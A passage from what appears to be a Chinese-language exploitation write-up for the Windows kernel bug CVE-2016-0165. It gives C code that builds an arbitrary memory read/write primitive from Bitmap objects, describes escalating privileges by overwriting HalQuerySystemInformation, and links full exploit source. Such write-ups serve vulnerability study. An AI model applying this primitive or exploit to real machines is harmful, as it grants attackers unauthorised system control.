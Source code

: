```
 
if (hBmpExtend == NULL)
{
    printf("Find hBmpExtend Error\n");
    bRet = FALSE;
    goto exit;
}
```  
  
  
  
有了这两个BitMap对象就可以通过以下代码实现任意地址读写：  
```
BOOL xxPointToHit(LONG addr, PVOID pvBits, DWORD cb)
{
    BOOL bRet = TRUE;
    DWORD dwAddr = 0;
     
    pBmpHunted[iExtpScan0] = addr;
    if (SetBitmapBits(hBmpHunted, 0x1000, pBmpHunted) < 0x1000)
    {
        ShowError("SetBitmapBits", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    if (SetBitmapBits(hBmpExtend, cb, pvBits) < cb)
    {
        ShowError("SetBitmapBits", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
exit:
    return bRet;
}
```  
  
  
  
在进行任意地址读写的时候，除了修改实现提权必要的数据以外，还需要修改由于漏洞对其申请的内存相邻的内存页的剪切板数据和BitMap对象中的数据。限于篇幅就不展开，具体看参考资料中的链接。  
  
  
  
四  
  
  
**运行结果**  
  
  
参考链接的作者通过直接修改Token实现提权，这里通过修改HalQuerySystemInformation函数来实现提权，相关代码已经上传到Github，链接为：  
https://github.com/LegendSaber/exp/blob/master/exp/CVE-2016-0165.cpp  
。  
  
  
编译运行程序，最终可以看到程序成功提权：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8G3WVayxh1xe4Vwicic63emUEKg4tuOUl5RoRLm82jFRtSYEljC5YNmxn3l9RNVNnJEiclh3ShIEiaoiaA/640?wx_fmt=jpeg "")  
  